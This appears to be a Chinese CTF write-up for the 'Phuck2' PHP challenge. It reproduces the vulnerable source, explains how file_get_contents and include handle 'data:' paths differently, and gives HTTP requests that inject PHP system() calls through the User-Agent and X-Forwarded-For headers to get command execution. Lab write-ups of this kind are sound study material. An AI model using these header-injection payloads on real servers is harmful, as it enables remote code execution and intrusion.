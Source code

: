 ```yaml
---
title: Phuck2
date: 2020-04-17
tags: [CTF, WP,php伪协议,data协议与file_get_contents与include]
categories:
- [CTF, WP]
comments: false
---
```

# Phuck2

## 分析

查看wp的源代码的发现传入参数hl可以得到源码

<!-- more -->

```
 <?php
    stream_wrapper_unregister('php');
    if(isset($_GET['hl'])) highlight_file(__FILE__);

    $mkdir = function($dir) {
        system('mkdir -- '.escapeshellarg($dir));
    };
    $randFolder = bin2hex(random_bytes(16));
    $mkdir('users/'.$randFolder);
    chdir('users/'.$randFolder);

    $userFolder = (isset($_SERVER['HTTP_X_FORWARDED_FOR']) ? $_SERVER['HTTP_X_FORWARDED_FOR'] : $_SERVER['REMOTE_ADDR']);
    $userFolder = basename(str_replace(['.','-'],['',''],$userFolder));

    $mkdir($userFolder);
    chdir($userFolder);
    file_put_contents('profile',print_r($_SERVER,true));
    chdir('..');
    $_GET['page']=str_replace('.','',$_GET['page']);
    if(!stripos(file_get_contents($_GET['page']),'<?') && !stripos(file_get_contents($_GET['page']),'php')) {
        include($_GET['page']);
    }

    chdir(__DIR__);
    system('rm -rf users/'.$randFolder);

?>
```

`$userFolder`在有`X-FORWARDED-FOR`头是用这个作为文件夹名

会打印`$_SERVER`传入profile文件

```
if(!stripos(file_get_contents($_GET['page']),'<?') && !stripos(file_get_contents($_GET['page']),'php')) {
        include($_GET['page']);
    }
```

考虑在http请求头中插入php代码,然后包含profile文件进行命令执行

当`allow_url_include=Off`时

file_get_contents在处理data:xxx时会直接取xxx

而include会包含文件名为data:xxx的文件

## payload

```
GET /?page=data:aa/profile HTTP/1.1
X-Forwarded-For: data:aa
User-Agent: <?php system('ls /'); ?>
GET /?page=data:aa/profile HTTP/1.1
X-Forwarded-For: data:aa
User-Agent: <?php system('/get_flag');?>
```

在返回的数据中找到flag

```
[HTTP_USER_AGENT] => flag{asdsafasfdsadasd}
```

## Reference

[Phuck2wp](https://ctftime.org/writeup/12921)